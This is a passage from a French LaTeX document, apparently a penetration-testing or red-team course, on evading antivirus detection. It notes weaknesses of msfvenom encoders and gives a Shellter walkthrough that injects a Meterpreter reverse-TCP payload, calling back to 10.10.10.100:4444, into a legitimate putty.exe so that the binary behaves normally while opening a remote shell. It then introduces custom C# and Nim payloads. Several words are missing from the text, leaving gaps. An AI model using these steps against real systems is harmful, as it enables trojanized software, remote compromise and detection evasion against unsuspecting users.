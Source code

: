 \begin{boxinfo}
\textbf{Limites de l'encodage Msfvenom :} Les encodeurs Msfvenom
(\textit{shikata\_ga\_nai}, \textit{xor\_dynamic}) sont bien connus des
éditeurs , leur efficacité contre les  modernes
est faible. Ils restent utiles pour les systèmes non mis à jour ou pour
démontrer le concept. Pour un contournement efficace, les techniques
présentées dans les subsections suivantes sont nécessaires.
\end{boxinfo}

\subsection{Shellter, Injection dans des Binaires Légitimes}
\label{subsec:shellter}

 injecte du shellcode dans un exécutable Windows
\textit{légitime} (ex.~: \texttt{putty.exe}, \texttt{vlc.exe}), en
modifiant le flux d'exécution de façon dynamique. Le fichier résultant
conserve sa signature et son comportement apparents.

\begin{lstlisting}[language=bash, caption={Shellter, injection dans un binaire légitime}]
# Installation (Kali Linux)
apt install shellter -y

# Mode auto : Shellter choisit automatiquement le point d'injection
shellter
# Choisir : A (Automatic mode)
# PE Target : /tmp/putty.exe   (binaire légitime 32 bits)
# Stealth mode : Y
# Payload : L (Listed) → 1 (Meterpreter_Reverse_TCP)
# LHOST : 10.10.10.100
# LPORT : 4444

# Résultat : putty.exe modifié, se comporte normalement ET déclenche
# un reverse shell Meterpreter à l'exécution
\end{lstlisting}

\subsection{Payloads Custom, C\# et Nim}
\label{subsec:custom_payloads}

Écrire son propre code d'injection est la technique la plus efficace pour
contourner les , un payload custom ne correspond à aucune
signature connue.

